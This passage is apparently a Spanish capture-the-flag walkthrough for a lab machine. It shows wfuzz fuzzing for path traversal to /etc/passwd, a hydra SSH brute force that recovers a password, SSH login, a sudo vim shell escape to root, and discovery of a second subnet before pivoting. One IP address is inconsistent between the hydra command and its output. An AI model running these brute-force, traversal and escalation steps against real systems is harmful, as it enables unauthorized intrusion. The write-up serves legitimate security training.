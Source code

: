 Revisamos si contenia parametros pero no obtuvimos ninguno:
```bash
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -u "http://10.10.10.2/secret.php?FUZZ=../../../../etc/passwd" --hl=39
```

---
## Explotacion de Vulnerabilidades
Usaremos **chisel** para el enrutamiento

### Ejecucion del Ataque
Realizamos un ataque de fuerza bruta en el objetivo ya que la web nos da una pista de un posible usuario **mario**
```bash
# Comandos para explotación
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 4 -f ssh://172.17.0.2
```

Obtuvimos las credenciales de acceso **ssh**:
```bash
[22][ssh] host: 10.10.10.2   login: mario   password: chocolate
```
### Intrusion
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 10.10.10.2 && ssh mario@10.10.10.2 # ( chocolate )
```

---

## Escalada de Privilegios & Pivoting

###### Usuario `[ mario ]`:
Listando los permisos para este usuario:
```bash
sudo -l

User mario may run the following commands on 905fa8885cbb:
    (ALL) /usr/bin/vim
```

Explotamos el privilegio
```bash
# Comando para escalar al usuario: ( root )
sudo -u root /usr/bin/vim -c ':!/bin/bash'
```

Ahora estamos como usuario **root**
```bash
root@905fa8885cbb:/home/mario# whoami
root
```

Ahora para este usuario tenemos esta subred a la cual desde mi maquina atacante no podemos realizar conexion:
```bash
hostname -I
10.10.10.2 
20.20.20.2 # Maquina objetivo 
```
